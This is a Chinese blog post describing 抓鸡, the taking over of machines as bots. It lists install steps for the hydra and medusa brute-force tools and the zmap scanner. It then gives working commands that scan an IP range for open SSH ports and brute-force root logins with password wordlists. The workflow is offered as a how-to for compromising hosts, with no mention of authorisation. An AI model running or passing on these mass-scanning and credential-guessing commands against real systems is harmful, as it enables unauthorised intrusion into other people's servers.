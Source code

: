 title: zj尝试
author: 7h4mid4
tags:
  - 渗透
  - 抓鸡
categories:
  - 渗透
date: 2019-08-19 23:09:00
---
记录一下的抓鸡的经历，以供后来者学习。


sshcracker
https://github.com/yijingping/sshcracker

教程:

https://cloud.tencent.com/developer/article/1043710
https://www.freebuf.com/sectool/170779.html
https://www.freebuf.com/sectool/159488.html
https://www.cnblogs.com/bonelee/p/9322684.html

## 安装工具

### 安装hydra爆破工具

#### Centos的安装方式

```

wget https://github.com/vanhauser-thc/thc-hydra/archive/master.zip

yum -y install gcc libssh-devel openssl-devel

yum install -y unzip zip

unzip master.zip

cd thc-hydra-master/

./configure

make &&make install

```

#### Ubuntu的安装方式

```

sudo apt-get install libssl-dev libssh-dev libidn11-dev libpcre3-dev libgtk2.0-dev libmysqlclient-dev libpq-dev libsvn-dev firebird-dev  hydra
//本人魔改，缺少libncp-dev

```

#### Windows的安装方式

https://github.com/maaaaz/thc-hydra-windows
下载解压安装即可。


### 安装`medusa`爆破工具

```
apt install medusa
或者手动编译安装。

```

apt安装之后，显示缺少ssh模块；手动编译安装之后显示安装在tools中，有ssh模块但是不能使用。

我的办法是：
将/tools/medusa/lib/medusa/modules/完整覆盖到/usr/lib/medusa/modules/中，然后进入/tools/medusa/bin/中使用./medusa的命令进行操作

### 安装zmap全网扫描工具

ubuntu直接使用apt安装

```
apt install zmap
```

sshcracker
https://github.com/yijingping/sshcracker

教程:

https://cloud.tencent.com/developer/article/1043710
https://www.freebuf.com/sectool/170779.html
https://www.freebuf.com/sectool/159488.html

## 操作

#### zmap扫描获取22开放的ip

```
zmap -r 2000 -p 22 192.168.0.0/16 -o iplist.txt
//以2000包每秒的速度探测22端口，将结果输出到iplist.txt文件中
```

#### medusa爆破

```
./medusa -M ssh -H iplist.txt -U users.txt -p password -O ssh.log
//指定ip文件，指定用户名字典，指定密码为password，结果输出到ssh.log文件中。

./medusa -M ssh -h 192.168.157.131 -u root -P newpass.txt
//指定ip为192.168.157.131，指定用户名为root，指定密码字典文件为newpass.txt

./medusa -M ssh -H iplist.txt -u root -P password-100.txt -O ssh.log

```
